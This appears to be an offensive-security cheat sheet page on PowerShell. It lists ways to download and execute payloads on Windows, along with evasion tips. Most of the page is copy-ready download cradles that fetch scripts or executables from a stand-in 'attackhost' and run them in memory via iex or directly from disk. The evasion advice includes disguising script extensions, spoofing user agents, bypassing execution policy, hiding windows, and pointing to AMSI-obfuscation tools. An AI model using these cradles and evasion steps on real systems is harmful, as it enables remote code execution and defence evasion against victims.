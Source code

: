 ##### [Execute PowerUp.ps1](../../../../Tools/Shells/Windows/PowerShell/PowerSploit/PowerUp.md)

# In-Memory Execution Methods
* Net.WebClient DownloadString (method)
* Net.WebClient DownloadData (method)
* Net.WebClient OpenRead (method)
* .NET Net.HttpWebRequest (class)
* Word.Application (COM)
* Excel.Application (COM)
* InternetExplorer.Application (COM)
* MsXml2.ServerXmlIHttp (COM)
* Certutil.exe w/ -ping argument

# Disk-Based Execution Methods
* Net.WebClient Download File
* BITSAdmin.exe
* Certutil.exe w/ -urlcache argument

# Evasion
* Use In-Memory execution.
* Use SSL when downloading scripts.
* Use a script extension other than .ps1, such as .jpg.
* Specify User-Agent with Net.WebClient
* -ExecutionPolicy bypass
* -Window hidden

# Download File
### Download File To Disk
```powershell
powershell -c wget "http://<Source Address>/<Source File>" -outfile "<Output File>"
```
##### Using Variables and User-Agent
```powershell
PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
PS C:\> $payload = "https://attackhost/file.exe"
PS C:\> $local_file = "file.exe"
PS C:\> $downloader.DownloadFile($payload, $local_file)
PS C:\> & $local_file # Execute file.
```
##### Using System's Proxy and Default Credentials
```powershell
PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
PS C:\> $proxy = [Net.WebRequest]::GetSystemProxy()
PS C:\> $proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
PS C:\> $downloader.Proxy = $proxy
PS C:\> $payload = "https://attackhost/file.exe"
PS C:\> $local_file = "file.exe"
PS C:\> $downloader.DownloadFile($payload, $local_file)
```

### Download File To String
##### From CMD Prompt
```powershell
C:\> powershell iex (New-Object Net.WebClient).DownloadString('http://[Attack Host]/[Source File]')
```
##### From PowerShell Prompt
```powershell
PS C:\> iex (New-Object Net.WebClient).DownloadString('http://[Attack Host]/[Source File]')
```
##### Using Variables and User-Agent
```powershell
PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
PS C:\> $payload = "https://attackhost/script.ps1"
PS C:\> $command = $downloader.DownloadString($payload)
PS C:\> Invoke-Expression $command
```
##### Using Net.WebRequest
```powershell
PS C:\> $request = [System.Net.WebRequest]::Create("https://attackhost/script.ps1")
PS C:\> $response = $request.GetResponse()
PS C:\> $proxy = [Net.WebRequest]::GetSystemWebProxy()
PS C:\> $proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
PS C:\> $request.Proxy = $proxy
PS C:\> iex ([System.IO.StreamReader]($response.GetResponseStream())).ReadToEnd()
```
##### Using XmlDocument
```powershell
PS C:\> $xmldoc = New-Object System.Xml.XmlDocument
PS C:\> $xmldoc.Load("https://attackhost/script.ps1")
PS C:\> iex $xmldoc.command.a.execute
```
### Using COM Object
##### MsXml2.XMLHTTP
```powershell
PS C:\> $downloader = New-Object -ComObject MsXml2.XMLHTTP
PS C:\> $downloader.open("GET", "https://attackhost/script.ps1", false)
PS C:\> $downloader.send()
PS C:\> iex $downloader.responseText
```
##### WinHttp.WinHttp.5.1
```powershell
PS C:\> $downloader = New-Object -ComObject WinHttp.WinHttp.5.1
PS C:\> $downloader.open("GET", "https://attackhost/script.ps1", false)
PS C:\> $downloader.send()
PS C:\> iex $downloader.responseText
```
##### As One-Liner
```powershell
PS C:\> $d=New-Object -ComObject WinHttp.WinHttp.5.1; $d.open("GET", "https://attackhost/script.ps1", false); $d.send(); iex $d.responseText
```

# Processes
##### Get list of processes running, sorted by name.
```powershell
tasklist /NH | sort
```

```bash
whoami /priv
```

# Services
##### Get List of Running Services
```powershell
powershell Get-Service
```

# [From Meterpreter](../../../Metasploit/README.MD#PowerShell)

# Tools
##### [Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)

# References
##### [Generates obfuscated PowerShell snippets](https://amsi.fail/)

##### [Approved Verbs for PowerShell Commands](https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/approved-verbs-for-windows-powershell-commands?view=powershell-7.2&viewFallbackFrom=powershell-7.1)

##### [Everything you wanted to know about the if statement](https://docs.microsoft.com/en-us/powershell/scripting/learn/deep-dives/everything-about-if?view=powershell-7.2&viewFallbackFrom=powershell-7.1)

##### [How to run a PowerShell script from the command prompt?](https://www.tutorialspoint.com/how-to-run-a-powershell-script-from-the-command-prompt)

##### [Learn X in Y minutes](https://learnxinyminutes.com/docs/powershell/)

##### [Powershell](https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powershell.html)

##### [PowerShell Documentation](https://docs.microsoft.com/en-us/powershell/)

##### [PowerShellMafia](https://github.com/PowerShellMafia)

##### [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

##### [Use Windows PowerShell to search for files](https://devblogs.microsoft.com/scripting/use-windows-powershell-to-search-for-files/)

##### [Where-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-7.2&viewFallbackFrom=powershell-7.1)
